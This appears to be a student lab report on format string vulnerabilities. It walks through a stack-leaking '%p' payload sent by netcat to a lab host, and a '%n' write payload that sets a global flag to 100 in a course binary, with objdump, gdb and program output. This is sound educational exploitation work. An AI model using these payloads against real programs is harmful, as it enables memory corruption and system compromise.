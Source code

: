 # CS6570 Report Lab 3 Format String Vulnerability

## *Instructions to run:*
* *inputx.py* files when run create *payloadx.exp* file in the directory.
* For Problem 1:
```
$ netcat 10.21.235.155 1023 < payload1.exp 
```
* For Problem 2:
```
$ ./flag < payload2.exp
```

## *Problem 1*
* As mentioned the neccessary bytes are present on the stack thus we make a payload which just prints on the stack information.
* Payload used:
```
payload = b"%p."*11 + b"\n"
```
* *payload1.exp* has 3 lines for username, password, and last exit line.
* Password line has the payload


## *Problem 2*
* There is a printf vulnerability which stores the input in a given buffer which can be used to access the flag value.
* First we ran the below payload to find the position of the buffer on the stack
```
payload = b"A"*4 + b"|" + b"%x."*10
```
* And we get the output:
```
Your input:
AAAA|f7fa35ee.804821c.80484cd.f7fcdb8c.1.f7f916a0.41414141.252e7825.78252e78.2e78252e.
flag = 0
```
* We get the position of the buffer as 7th position from %esp.
* We need to place the address of given flag in the buffer.
* To find it we access objdump of flag and in main we find a *cmp* of eax with 100(0x64).
```
 8048526:	83 c4 10             	add    $0x10,%esp
 8048529:	8b 83 2c 00 00 00    	mov    0x2c(%ebx),%eax
 804852f:	83 f8 64             	cmp    $0x64,%eax
 8048532:	75 14                	jne    8048548 <main+0x92>
 ```
* We see that the address of flag is ebx + 0x2c before instruction 0x0804852f
* On using gdb with breakpoint before the cmp instruction we find the value stored in ebx as 0x0804a000
* Thus the flag address is 0x0804a02c
* We must store the address into the buffer and call send *%7$n* as an input to the buffer.
* To make the value sent to flag as 100(0x64) we send an additional *%96x*.
* Thus the payload is effectively :
```
payload = b"\x2c\xa0\x04\x08"
payload += b"%96x" + b"%7$n"
```

* On running this payload after storing it in payload2.exp :

```
./flag < payload2.exp
```
* We get output :
```
Your input:
,�                                                                                        f7f8a5ee
flag = 100

The system is compromised
```

